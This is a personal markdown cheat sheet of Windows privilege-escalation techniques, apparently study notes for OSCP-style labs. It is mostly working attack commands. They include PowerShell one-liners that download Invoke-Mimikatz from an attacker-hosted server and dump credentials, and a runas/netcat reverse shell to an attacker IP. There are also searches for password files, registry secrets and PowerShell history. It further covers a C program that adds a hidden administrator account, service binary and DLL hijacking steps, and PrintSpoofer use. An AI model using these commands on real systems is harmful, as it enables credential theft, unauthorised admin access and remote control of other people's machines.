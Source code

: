 # windows privesc
basic windows privilege escalation, since i have trouble parsing through the torrent of false-positives from standard tools

### // privesc checklist
```
https://parzival.sh/blog/my-oscp-notes-and-resources
    PowerShell Empire has some great PS1 scripts readily available such as Invoke-Watson and Invoke-MS16032 as examples. Their Mimikatz.ps1 is also great. These can be accessed at the following location Kali: /usr/share/powershell-empire/empire/server/data/module_source/
    Use the following command to search for cleartext passwords in registry: reg query HKCU /f password /t REG_SZ /s
    Be careful using commands ripped from other sites, make sure you understand what they are doing and how to modify them. An example for the previous note is modifying it to be more broad: reg query HKCU /f pass /t REG_SZ /s
    Windows binaries are ready to go on Kali: /usr/share/windows-binaries
    Fix your Windows path with the following command: set PATH=%SystemRoot%\system32;%SystemRoot%;
    Unable to get Mimikatz onto a machine? Simply host a http server and execute the following:

powershell IEX (New-Object System.Net.Webclient).DownloadString('http://10.10.10.1:8080/Invoke-Mimikatz.ps1') ; Invoke-Mimikatz -DumpCreds
powershell IEX (New-Object System.Net.Webclient).DownloadString('http://192.168.119.164:8080/Invoke-Mimikatz.ps1') ; Invoke-Mimikatz -Command lsadump::sam

    Check out C:\Program Files (x86) for any outdated and vulnerable installations.
    If Administrator credentials have been obtained but you can’t get an interactive shell then strongly consider using the runas command in combination with a binary like netcat: runas /env /profile /user:[DOMAIN]\Administrator "C:\Windows\Tasks\nc.exe -e cmd.exe $attackerip 443"
    Mimikatz errors? Need to downgrade your version? Use the version availabke at this link.

Additional Windows Privilege Escalation Resources

Some additional resources I referenced throughout Windows privilege escalation

    0x1 Gitlab
    Juicy Potato Walkthrough
    https://github.com/SecWiki/windows-kernel-exploits
    Windows Exploit Suggester

```

### // sitational awareness
```
whoami /groups
powershell
Get-LocalUser
Get-LocalGroup
Get-LocalGroupMember adminteam
Get-LocalGroupMember Administrators
systeminfo
ipconfig /all
route print
netstat -ano
Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
Get-Process
```

### // hidden in plain view
```
Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue
Get-ChildItem -Path C:\xampp -Include *.txt,*.ini -File -Recurse -ErrorAction SilentlyContinue
type C:\xampp\mysql\bin\my.ini
Get-ChildItem -Path C:\Users\dave\ -Include *.txt,*.pdf,*.xls,*.xlsx,*.doc,*.docx -File -Recurse -ErrorAction SilentlyContinue
```

### // powershell info
```
Get-History
(Get-PSReadlineOption).HistorySavePath
type C:\Users\dave\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
type C:\Users\Public\Transcripts\transcript01.txt
```

### // enter pssession
```
$password = ConvertTo-SecureString "qwertqwertqwert123!!" -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential("daveadmin", $password)
Enter-PSSession -ComputerName CLIENTWK220 -Credential $cred
```

### // service binary hijacking .. find what services you can replace the binary of
```
Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}
icacls "icacls "C:\xampp\mysql\bin\mysqld.exe"
Get-CimInstance -ClassName win32_service | Select Name, StartMode | Where-Object {$_.Name -like 'mysql'}
.. you can restart the system to initiate a service restart
```

### // create user c program
```
#include <stdlib.h>
int main (){int i;i = system ("net user dave2 password123! /add");i = system ("net localgroup administrators dave2 /add");return 0;}
x86_64-w64-mingw32-gcc adduser.c -o adduser.exe
```

### // service DLL hijacking .. hijack a dll and gain execution as the parent process
```
Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}
icacls .\Documents\BetaServ.exe
Restart-Service BetaService
```

### // unquoted service path .. abuse windows behavior by placing a malicious bin higher in a service path
```
Get-CimInstance -ClassName win32_service | Select Name,State,PathName
wmic service get name,pathname |  findstr /i /v "C:\Windows\\" | findstr /i /v """
icacls "C:\"
icacls "C:\Program Files"
icacls "C:\Program Files\Enterprise Apps"
```

### // scheduled task privesc
```
schtasks /query /fo LIST /v
icacls C:\Users\steve\Pictures\BackendCacheCleanup.exe
```

### // print spooler exploit .. SeImpersonatePrivilege?
```
whoami /priv
wget https://github.com/itm4n/PrintSpoofer/releases/download/v1.0/PrintSpoofer64.exe
.\PrintSpoofer64.exe -i -c powershell.exe
```

### // on-target Windows enumeration / privesc
```
#weak folder permissions
Get-ChildItem "C:\Program Files" -Recurse | Get-ACL | ?{$_.AccessToString -match "Everyone\sAllow\s\sModify"}
```
